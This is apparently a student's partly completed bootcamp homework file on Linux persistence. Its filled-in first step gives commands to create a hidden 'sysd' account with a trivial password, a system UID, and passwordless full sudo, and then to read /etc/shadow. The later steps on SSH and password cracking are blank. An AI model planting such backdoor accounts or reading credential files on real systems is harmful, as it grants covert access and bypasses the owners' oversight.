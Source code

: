 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - sudo adduser sysd --no-create-home
2. Give your secret user a password: 
    - sysd
    - very easy to remember...
3. Give your secret user a system UID < 1000:
    - usermod -u 47 sysd
4. Give your secret user the same GID:
   - groupmod -g 47 sysd
5. Give your secret user full `sudo` access without the need for a password:
   - 
   
        -visudo    
        -Add at the bottom:
        -sysd all=(all) NOPASSWD:ALL
![Edit_Sudoers_Step1_Q5](/HW-6/Image/Edit_Sudoers_Step1_Q5.png)
6. Test that `sudo` access works without your password:
![Sudo-L_Step1_Q6](/HW-6/Image/Sudo-L_Step1_Q6.png)

        sudo cat /etc/shadow
        sudo visudo
        None of them required a password.

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `Your solution command here`

2. Exit the `root` account:
    - `Your solution command here`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `Your solution command here`

4. Use `sudo` to switch to the root user:
    - `Your solution command here`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `Your solution command here`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `Your solution command here`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

